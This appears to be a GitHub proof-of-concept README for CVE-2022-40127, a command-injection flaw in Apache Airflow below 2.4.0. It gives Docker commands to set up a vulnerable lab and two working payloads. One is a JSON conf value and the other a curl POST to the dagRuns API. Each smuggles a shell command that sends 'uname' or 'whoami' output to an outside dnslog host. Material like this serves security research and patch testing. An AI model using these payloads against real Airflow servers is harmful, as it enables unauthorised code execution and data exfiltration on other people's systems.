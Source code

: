 # CVE-2022-40127
Apache Airflow &lt; 2.4.0 DAG  example_bash_operator RCE

# poc docker env:

```
mkdir CVE-2022-40127 && cd CVE-2022-40127 
curl -LfO 'https://airflow.apache.org/docs/apache-airflow/2.3.4/docker-compose.yaml'
#or wget https://github.com/Mr-xn/CVE-2022-40127/raw/main/docker-compose.yaml
mkdir -p ./dags ./logs ./plugins
echo -e "AIRFLOW_UID=$(id -u)" > .env
docker-compose up airflow-init
docker-compose up -d
#waiting some times
open localhost:8080
```

# POC 1

example_bash_operator

```
{"fxoxx":"\";curl `uname`.lxx2.535ld4zn.dnslog.pw;\""}
```

<img width="952" alt="image" src="https://user-images.githubusercontent.com/18260135/202715494-4ca2fd4f-384e-40aa-ae7b-02ca51defa4f.png">

## dnslog via

<img width="414" alt="image" src="https://user-images.githubusercontent.com/18260135/202846433-4a4a40fa-675e-477b-a9c4-be2f6c894583.png">


# POC 2

```
curl -X 'POST' \
  'http://10.11.12.131:8080/api/v1/dags/example_bash_operator/dagRuns' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
    "conf": {
"dag_run": "api2"
},
  "dag_run_id": "id \"&& curl `whoami`.api222.535ld4zn.dnslog.pw",
  "logical_date": "2022-11-19T10:13:13.920Z"

}'
```

